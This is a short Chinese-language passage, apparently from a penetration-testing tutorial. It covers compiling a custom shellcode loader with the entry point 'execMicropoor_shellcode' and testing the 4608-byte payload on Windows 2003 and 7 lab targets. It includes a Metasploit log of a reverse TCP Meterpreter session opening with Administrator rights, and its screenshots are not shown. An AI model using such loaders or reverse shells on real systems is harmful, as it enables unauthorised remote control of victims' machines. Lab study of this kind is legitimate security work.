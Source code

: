 **自定义入口点：execMicropoor_shellcode**  
![](media/55a9e1b87b08ce164cf6bee8167d3491.jpg)

**再次编译：**  
![](media/357710f6faabc6604bbaa35592ce79db.jpg)

**payload大小如下：**  
4608字节  
![](media/bdd9366a5d3006aaaab48cf97908022b.jpg)

### 第一次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。

![](media/542ba22b5fc53ca130875f92d4bef49e.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > 
```

